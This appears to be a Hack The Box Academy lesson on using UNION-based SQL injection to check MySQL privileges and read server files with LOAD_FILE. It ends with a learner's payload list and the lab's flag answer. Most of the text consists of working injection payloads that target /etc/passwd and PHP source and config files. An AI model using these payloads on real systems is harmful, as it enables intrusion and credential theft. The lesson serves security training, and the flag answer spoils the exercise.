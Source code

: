 # Reading Files

In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

***

### Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

**DB User**

First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

Code: sql

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our `UNION` injection payload will be as follows:

Code: sql

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

Code: sql

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, which in this case is `root`:

![](https://academy.hackthebox.com/storage/modules/33/db\_user.jpg)

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

**User Privileges**

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

Code: sql

```sql
SELECT super_priv FROM mysql.user
```

Once again, we can use the following payload with the above query:

Code: sql

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`:

Code: sql

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

![](https://academy.hackthebox.com/storage/modules/33/root\_privs.jpg)

The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:

Code: sql

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. Our payload would be:

Code: sql

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

And we see all of the possible privileges given to our current user:

![](https://academy.hackthebox.com/storage/modules/33/root\_privs\_2.jpg)

We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

***

### LOAD\_FILE

Now that we know we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function. The [LOAD\_FILE()](https://mariadb.com/kb/en/load\_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the `/etc/passwd` file:

Code: sql

```sql
SELECT LOAD_FILE('/etc/passwd');
```

Note: We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

Similar to how we have been using a `UNION` injection, we can use the above query:

Code: sql

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

![](https://academy.hackthebox.com/storage/modules/33/load\_file\_sqli.png)

We were able to successfully read the contents of the passwd file through the SQL injection. Unfortunately, this can be potentially used to leak the application source code as well.

***

### Another Example

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

Code: sql

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

![](https://academy.hackthebox.com/storage/modules/33/load\_file\_search.png)

However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting `[Ctrl + U]`.

![load\_file\_source](https://academy.hackthebox.com/storage/modules/33/load\_file\_source.png)

The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.

**Questions**

We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -

cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
dB_pAssw0rd_iS_flag!
```
